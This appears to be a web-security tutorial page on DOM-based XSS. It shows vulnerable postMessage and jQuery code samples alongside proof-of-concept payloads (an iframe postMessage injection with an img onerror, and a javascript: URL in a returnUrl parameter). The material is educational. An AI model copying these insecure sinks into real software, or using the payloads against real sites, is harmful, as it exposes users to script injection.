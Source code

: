 {% hint style="success" %}
**Tips**:

1.  Here there are some sources and sinks

    https://github.com/wisec/domxsswiki/wiki

    https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
2. DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks.
{% endhint %}

### <mark style="color:purple;">DOM-based web message</mark> <a href="#what-is-the-impact-of-dom-based-web-message-vulnerabilities" id="what-is-the-impact-of-dom-based-web-message-vulnerabilities"></a>

```html
<!-- Vulnerable website -->
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('test').innerHTML = e.data;
    })
</script>
```

Exploit

```html
<iframe src=https://vuln.website/ onload='this.contentWindow.postMessage("<img src=1 onerror=print()>","*")'>
```

### <mark style="color:purple;">**jQuery**</mark>

jQuery's `attr()` function can change the attributes of DOM elements

<pre class="language-javascript"><code class="lang-javascript"><strong>$(function() {
</strong>	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
</code></pre>

Exploit

```
?returnUrl=javascript:alert(document.domain)
```

***

jQuery's `$()` selector function in another potential sink. If you open the browser console and type `$('<img src=x onerror=alert()>')` jQuery creates this new element (so the alert will be shown)

An example:

```javascript
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```
